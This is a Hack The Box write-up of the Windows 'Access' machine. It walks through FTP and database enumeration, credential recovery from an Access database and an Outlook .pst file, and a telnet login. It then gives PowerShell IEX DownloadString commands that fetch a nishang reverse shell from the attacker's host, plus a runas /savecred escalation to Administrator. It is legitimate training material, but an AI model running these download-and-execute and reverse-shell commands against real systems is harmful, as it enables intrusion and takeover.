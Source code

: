 ```yaml
---
layout: post
title: "[HTB] Access Writeup"
slug: "access"
date: "2024-04-18"
comments: false
categories:
  - hacking
tags:
  - write up
  - hack the box
  - windows
---
```


### Enumeration
**IP**: 10.10.10.98

```bash
> nmap -sCV -v 10.10.10.98 -oA nmap/
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So we have http, ftp and possibly telnet open.

###### FTP
We try anonymous login on the ftp port.
```bash
> ftp anonymous@10.10.10.98
> ls
Backups
Engineer
> cd Backups
> binary
Mode set to I
> get backup.mdb
> cd ../Engineer
> get Access\ Control.zip
```

We download the two files onto our host.
![](/images/access/file_type.png)

The `zip` file is password protected and the backup is Microsoft access database.
![](/images/access/password_protected.png)

###### Telnet
```bash
> telnet 10.10.10.98
login:
password:
```

We need credentials so let's skip for the moment.

###### http
![](/images/access/http_server.png)

Not much value in the web server too.

Downloading the image and running `exiftool` on it.
![](/images/access/exif_tool.png)
###### backup.mdb

In our linux machine let's install `mdbtools` which is a linux tool for accessing Microsoft Access database. 

```bash
> sudo apt-get install mdbtools
```

Using `mdb-tables` to view the tables inside the database.
![](/images/access/mdb_tables.png)

For visibility let's do:
```bash
> mdb-tables backup.mdb | tr ' ' '\n' | sort > tables.txt
acc_antiback
....
auth_user
....SNIP
```

Exporting value from the `auth_user` we get:
![](/images/access/auth_user.png)

```txt
admin:admin
engineer:access4u@security
backup_admin:admin
```

We try the `engineer` password on the password protected `zip` archive.

```bash
> file Access\ Control.pst
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

We get a Microsoft Outook email folder. I don't know how to open pst file on my linux machine so I have utilised an online [pst-viewer](https://goldfynch.com/pst-viewer/index.html)

![](/images/access/pst_outlook.png)

```text
security:4Cc3ssC0ntr0ller
```

We got another cred. Let's test this on telnet.
![](/images/access/telnet_access.png)

We have user `> type C:\Users\Desktop\user.txt`.

Going through `C:\Users\Public\Desktop` we find an interesting shortcut.
![](/images/access/access_lnk.png)

Running `type` on the file we get a bunch of strings.
![](/images/access/type_lnk.png)

Before we analyse it let's upgrade our shell by using a reverse shell from nishang.

```powershell
C:\Users\Public\Desktop> powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.20:1337/nishang.ps1')"
```

```bash
> python3 -m http.server 1337
> nc -lvnp 6969
Listening on 0.0.0.0 6969
Connection received on 10.10.10.98 49162
Windows PowerShell running as user security on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\security>
```

Now let's use powershell command to analyse the `.lnk` shortcut file.
![](/images/access/runas.png)

On analysing we see that `runas.exe` is used to run the command and there is `/user:ACCESS\Administrator /savecred` as argument. This means that we can run the command as Administrator and  password is cached.

We try to use `runas` with `user` and `savecred` from our reverse shell but it's not working as intended. So let's start over with our telnet connection and try to get a reverse shell with admin privilege.

```cmd
C:\Users\Public\Desktop> runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.20:1337/nishang.ps1')"
```

![](/images/access/administrator.png)

We have root`type C:\Users\Administrator\Desktop\root.txt`

The machine has been pwned.
![](/images/access/pwned.png)